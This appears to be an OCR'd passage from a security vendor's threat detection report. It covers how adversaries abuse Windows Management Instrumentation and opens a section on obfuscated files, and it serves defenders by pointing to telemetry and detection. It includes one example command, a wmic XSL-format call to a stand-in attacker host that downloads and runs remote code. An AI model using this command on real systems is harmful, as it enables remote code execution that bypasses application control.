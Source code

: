 determine what antivirus product may be installed
 
stop the firewall service
 
enumerate group membership (including local and in many configurations, 
domain administrator accounts)
 
modify dozens more items of interest 
Weve also run into adversaries leveraging XSL Script Processing, which can be 
used to bypass application control andcourtesy of WMICs format option
download code from a remote location.72
ASSOCIATED THREATS
Heres an example of what this can look like:wmic os get FORMAT:http:evilhacker.comattacker.xsl 
When the above command is run, it will download and execute the contents of 
the XSL file. 
Adversaries also use WMI for persistence via the trio of WMI event consumers, 
filters, and filter\-to\-consumer bindings. Adversaries use this persistence 
mechanism to execute arbitrary code in response to activity on the endpoint 
such as a user logging in or out or a file being written to a specified path. 
Regardless of whether its a single endpoint, an endpoint in an Active Directory 
domain, or an Azure VM, the WMI service will be running and available to 
adversaries who have already compromised an endpoint or identity.
CrackMapExec
Impacket
Mimikatz
Dumpert
Cobalt Strike
Visit the Windows Management Instrumentation technique page to explore:
 
relevant MITRE ATT\&CK data sources 
 
log sources to expand your collection 
 
detection opportunities you can tune to your environment 
 
atomic tests to validate your coverage 
Theres no simple strategy for limiting the effectiveness of adversarial abuse of 
WMI. As is often the case with techniques that are common Windows utilities 
or processes, the nuclear option of disabling the Winmgmt service is not 
recommended because legitimate code often relies upon WMI. Therefore blocking 
it would break untold numbers of things in unexpected ways.
WMI namespaces are also securable objects, and while administrators can 
further restrict use, remote WMI access requires administrator privileges by default, 
so its already in a reasonably locked down state. Generally speaking, security 
teams should focus on collecting the right kinds of telemetryAMSI being among 
the best sourcesand developing methods of reliably detecting WMI abuse 
rather than hoping to mitigate WMI abuse altogether.
TAKE ACTION
73
TECHNIQUE
A mainstay in our annual top 10, Obfuscated Files or Information 
remains a necessary component of most successful attacks.
Why do adversaries obfuscate files
or information?Adversaries employ obfuscation to evade simple, signature\-based detection 
analytics and to impede analysis. Since software and IT administrators also 
obfuscate files and information in the regular course of business, evasive 
obfuscation blends in with benign obfuscation. Ironically, some obfuscation 
techniques are so focused on fooling machines that they disproportionately
draw human attention. 
If you consider the conspicuousness of the alternativeperforming clearly 
malicious actions in plain sightit makes sense that adversaries would take 
 the time and effort to encrypt, encode, or otherwise obfuscate files or 
information that, in plaintext form, would be obviously malicious and trivial
to detect or block. 
How do adversaries obfuscate files
or information? 
Many Red Canary threat detections are mapped to more than one ATT\&CK 